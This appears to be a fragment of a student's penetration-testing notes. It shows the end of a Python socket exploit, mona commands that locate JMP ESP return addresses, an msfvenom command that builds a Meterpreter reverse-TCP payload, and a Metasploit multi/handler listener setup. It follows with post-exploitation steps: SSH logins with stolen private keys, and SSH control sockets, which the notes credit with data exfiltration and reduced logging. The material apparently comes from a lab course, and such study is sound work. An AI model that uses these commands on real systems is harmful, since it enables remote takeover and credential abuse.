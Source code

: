 ```SHell
s.send(buf) #Sends buf to IP and port
print s.recv(1024) #recieve response
s.close() #close connectionrun py
```

# From Immunity Debugger, bottom screen run !mona modules to find unprotected modules
	
# to find the JMP ESP
[Log Data Tab]
>!mona jmp -r esp -m
 Output:
	0x625012a0
	0x625012ad
	0x625012ba

# Build Reverse TCP Payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -b "\x00" -f python

# Execute the Exploit
>msfconsole
>use multi/handler
>set payload windows/meterpreter/reverse_tcp
>set LHOST 0.0.0.0
>set LPORT 4444
>explot

### Post Exploitation
            MISC:
                        SSH
                        ssh <user>@<ip> <cmd>
                        ssh student@10.50.32.38 ls -lisa
                        Priv Key Logon
                                    find private key, can use it to authenticate without password
                                                chmod +x /<stolenkey of user>
                                                ssh -i <stolen key of user> <user>@<ip>
                        
#### Control Sockets
            Benefits: 
                        Multiplexing
                        Data Exfiltration
                        Less Logging
##### Demo for Control Sockets
            ssh -MS /tmp/gray student@10.50.32.38
                        [gray is a file in a temp that is a socket file]
            ssh -S /tmp/gray <placeholder>
                        [will connect to the box the original socket was created with]
            ssh -MS /tmp/gray -O[option] cancel <user>@<ip> 
            